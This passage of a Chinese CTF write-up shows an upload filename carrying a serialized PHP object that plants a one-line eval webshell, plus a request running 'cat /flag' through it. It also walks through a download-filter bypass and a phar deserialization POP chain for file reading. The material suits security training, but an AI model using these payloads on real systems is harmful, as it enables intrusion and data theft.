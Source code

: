 随便上传一个文件，抓包并修改filename为

```
file"; filename="§|O:5:§"Cache":4:`{`s:4:"data";a:3:`{`s:7:"message";s:24:"&lt;?php eval($_GET[qq]);?&gt;";s:4:"name";s:1:"t";s:5:"image";s:1:"t";`}`s:2:"sj";N;s:4:"path";s:23:"/var/www/html/write.php";s:4:"html";N;`}`"
```

用intruder无限循环请求，访问/index.php?qq=system(‘cat+/flag’);即可获取到flag。

### <a class="reference-link" name="upload"></a>upload

[![](https://p3.ssl.qhimg.com/t01851c188ed4629e62.png)](https://p3.ssl.qhimg.com/t01851c188ed4629e62.png)

首先根据download.php可以看到此时可以传入name参数，并且此时我们传入的name将经过safe_replace()处理以后，然后进行文件下载，这里限制了文件名并且要求过滤了以后的文件名必须在白名单里面，因此这里要bypass一下safe_replace()，这里我尝试了&lt;&gt;，*，select，%，反引号，||，&amp;字符都没成功，当尝试反斜杠时，发现可以成功读取文件，因此可以直接下载所有源码文件：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t013e3c335130b581d6.png)

[![](https://p3.ssl.qhimg.com/t0126f176019cfa3bf7.png)](https://p3.ssl.qhimg.com/t0126f176019cfa3bf7.png)

下载完源码以后就是代码审计，

根据这种自己写的几个php文件，第一个反应就是找存不存在反序列化的点

[![](https://p4.ssl.qhimg.com/t01056e84a1a1007b1d.png)](https://p4.ssl.qhimg.com/t01056e84a1a1007b1d.png)

这里明显存在phar反序列化，都考烂了，并且有上传文件的功能，路径也已知，并且这里并没有过滤phar，可以直接phar反序列化，那么确定了漏洞点，接下来就是找pop链

[![](https://p0.ssl.qhimg.com/t01eef775e784277258.png)](https://p0.ssl.qhimg.com/t01eef775e784277258.png)

class.php中Sh0w类存在destruct,Show类中存在wakeup函数，但是没法利用，因此选择Sh0w类的destruct来进行构造pop

[![](https://p1.ssl.qhimg.com/t0160f4e695d2533fcb.png)](https://p1.ssl.qhimg.com/t0160f4e695d2533fcb.png)

虽然这里调用了_show()方法，但是此时Show的_show函数过滤了过滤了flag，感觉没法利用

[![](https://p3.ssl.qhimg.com/t01c29a1ac5b23f5661.png)](https://p3.ssl.qhimg.com/t01c29a1ac5b23f5661.png)

[![](https://p0.ssl.qhimg.com/t01f109678f72b1bd2e.png)](https://p0.ssl.qhimg.com/t01f109678f72b1bd2e.png)

但是它还有个tostring()魔术方法，没有过滤，可以直接任意文件读取，当对象被当做字符串输出的时候，就能够触发该对象的toString()方法

[![](https://p2.ssl.qhimg.com/t01dae66af3c93959b4.png)](https://p2.ssl.qhimg.com/t01dae66af3c93959b4.png)

刚好S6ow存在file_get函数存在echo

[![](https://p1.ssl.qhimg.com/t012886c5049caa9167.png)](https://p1.ssl.qhimg.com/t012886c5049caa9167.png)

